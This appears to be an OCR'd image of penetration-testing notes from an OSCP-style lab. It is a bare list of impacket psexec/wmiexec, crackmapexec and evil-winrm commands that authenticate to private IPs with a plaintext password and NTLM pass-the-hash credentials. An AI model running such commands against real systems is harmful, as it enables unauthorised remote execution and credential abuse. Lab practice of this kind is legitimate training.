 impacket-psexec web_svc:Diamond1@192.168.197.147

impacket-wmiexec web_svc:Diamond1@192.168.197.147

 crackmapexec smb 10.10.132.142 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
 crackmapexec smb 10.10.132.140 -u oscp.exam\tom_admin -H 31d6cfe0d16ae931b73c59d7e0c089c0

impacket-psexec -hashes 00000000000000000000000000000000:e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.132.142
 impacket-wmiexec -hashes 00000000000000000000000000000000:e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.132.142
evil-winrm -i 10.10.132.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd


